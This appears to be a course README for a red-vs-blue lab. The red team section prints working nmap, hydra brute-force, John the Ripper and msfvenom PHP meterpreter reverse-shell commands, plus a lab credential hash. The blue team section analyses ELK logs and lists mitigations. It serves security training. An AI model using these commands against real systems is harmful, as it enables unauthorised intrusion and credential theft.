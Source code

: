 ## Red vs. Blue Team Project

- **Network Topology**:

  ![](./Images/NetworkDiagram.png)
  - The following machines live on the network address range 192.168.1.0/24:
    - **Kali**: `192.168.1.90`
    - **ELK**: `192.168.1.100`
    - **Target**: `192.168.1.105`

### **Red Team - Security Assessment**

#### **Information Gathering**

Given the target IP address, the first step was to identify which ports are open and which services are running on those ports. I used Nmap to perform a version scan, default script scan, and saved the output to a file.

- **Command Used:**

```bash
	nmap -sC -sV -oN nmap_target 192.168.1.105.png
```
  ![](./Images/nmap_192.168.1.105.png)

- **Running Services"
  - `22/tcp ssh OpenSSH 7.6p1 Ubuntu`
  - `80/tcp http Apache httpd 2.4.29`


After casually browsing through the webserver on port 80, I discovered a hidden directory, company_folders/secret_folder and a list of users.

  ![](./Images/secret_folder.png)

#### **Exploitation**

The secret_folder requires authentication to access. I used hydra to perform a brute force attack.
- **Command Used:**
```bash
	hydra -l ashton -P rockyou.txt -s 80 -f 192.168.1.105 http-get /company_folders/secret_folder/
```

  ![](./Images/hydra_result.png)

The secret_folder contained a guide to connecting to the internal webdav server.
- **Credentials:** `ryan:d7dad0a5cd7c8376eeb50d69b3ccd352`
- `dav://192.168.1.105/webdav/`

Ryan user's password was hashed using md5, so I used John the Ripper to crack the hashed password.
- **Command Used:**
```bash
	john --format=raw-md5 hash
```

  ![](./Images/john_result.png)

Now that I have the ability to upload a file onto the server, I generated a PHP reverse meterpreter payload using msfvenom and uploaded it to the webdav server.
- **Command Used:**
```bash
	msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -o shell.php
```

After successfully uploading the payload, I accessed the payload on the webserver to start a meterpreter session to the listener.

  ![](./Images/webdav_directory.png)
  
  ![](./Images/meterpreter_session.png)



### **Blue Team - Incident Analysis**
  
#### **ELK Stack**
A considerable amount of data is available in the logs. Specifically, evidence of the following was obtained upon inspection:
    - Traffic from attack VM to target, including unusually high volume of requests
    - Access to sensitive data in the `secret_folder` directory
    - Brute-force attack against the HTTP server
    - POST request corresponding to upload of `shell.php`

  - **Identifying Unusually High Volume of Requests**: Logs indicate an unusual number of requests made to the URL `http://192.168.1.105/company_folder/secret_folder/`. The PacketBeat Flow graph from the dashboard shows that the attack began around 17:50. Note that `401 Unauthorized` is the top response and few `200 OK`, `207 Multi-Status`, and `404 Not Found` response status codes.

  ![](./Images/request_count.png)

  ![](./Images/packetbeat_flows.png)

  ![](./Images/HTTP_status_codes.png)

  - From the Blue Team perspective, 4 status codes of `200 OK` after 436,504 `401 Unauthorized` may be concerning. It indicates that the attacker was able to successfully gain credentials and access restricted resources.

  - **Access to Sensitive Data in `secret_folder`**: From the Kibana Discover page, a query for the resource `/company_folders/secret_folder/` also displays that `connect_to_corp_server` file had been accessed.

  ![](./Images/sensitive_data.png)

  - **HTTP Brute Force Attack**: Searching for `url.path: /company_folders/secret_folder/` shows conversations involving the sensitive data. Specifically, the results contain requests from the brute-forcing tool`Hydra`, identified under the `user_agent.original` section:

      ![](./Images/hydra_evidence.png)

  - **WebDAV Connection & Upload of `shell.php`**: The logs also indicate that an unauthorized actor was able to access protected data in the `webdav` directory. The `passwd.dav` and `shell.php` was accessed with `GET` request. After the `shell.php` file was requested, an unknown connection was made from source IP `192.168.1.105` to `192.168.1.90:4444`.

      ![](./Images/webdav.png)

      ![](./Images/shell.png)

#### **Mitigation**

  - Mitigation steps for each vulnerability above are provided below.
    - **High Volume of Traffic from Single Endpoint**
      - Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to denial of service conditions. It is also recommended to set up an alarm to trigger alerts against suspiciously fast series of requests that may be indicative of scanning.
    - **Access to sensitive data in the `secret_folder` directory**
      - The `secret_folder` directory should be protected with stronger authentication. It is also a good idea remove the secret_folder itself from the web server to prevent unauthorized actors from accessing the directory.
    - **Brute-force attack against the HTTP server**
      - Use the combination of stronger password policy, account timeout mechanism, account lockout mechanism, and CAPTCHA which are all good defensive mechanism to prevent brute force attacks against the HTTP server.
    - **POST request corresponding to upload of `shell.php`**
      - File uploads should require authentication. Create a whitelist of acceptable file formats to prevent executable files being uploaded to the server.

### Presentation

A sample slideshow is attached:
- [Report: Red vs. Blue Project] https://docs.google.com/presentation/d/1LOPgsDdWqI1YVW-HfsbMOTmNoviaAGlYJtnKYv28ckY/edit?usp=sharing